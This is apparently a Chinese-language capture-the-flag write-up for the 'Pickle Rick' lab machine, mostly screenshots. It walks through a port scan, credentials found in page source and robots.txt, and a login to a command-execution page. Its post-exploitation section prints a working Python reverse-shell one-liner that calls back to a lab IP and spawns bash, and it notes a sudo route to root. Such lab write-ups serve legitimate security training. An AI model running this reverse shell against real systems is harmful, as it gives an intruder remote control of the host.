 ```yaml
---
sidebar_position: 4
tags: [Easy, Linux, 信息泄露, 命令执行, SUDO]
title: Pickle Rick
sidebar_label: Pickle Rick
---
```

# Pickle Rick
## 端口扫描
![20240525123533](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123533.png)
![20240525123539](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123539.png)
#
## 80
![20240525123652](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123652.png)

查看网页根据其内容提示我们需要找到某些东西

![20240525123554](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123554.png)

:::tip
此时如果查看网页源码可以发现提示了一个用户名称 : `R1ckRul3s`
:::

![20240525123637](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123637.png)

在其中我们发现 robots.txt 文件给出了一段字符串 Wubbalubbadubdub

![20240525123707](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123707.png)

并且我们发现了一个登陆窗口, 我们尝试使用上面的内容作为账号和密码进行登陆, 发现可以登陆成功, 并且发现这其实是一个命令执行窗口, 所以我们可以尝试在此获取 SHELL

![20240525123721](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123721.png)

## 后渗透
### www-data

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.96.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
![20240525123743](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123743.png)

### www-data —> root
我发现用户 www-data 具有 SUDO 特权可以直接获取权限
![20240525123805](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123805.png)

![20240525123955](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123955.png)
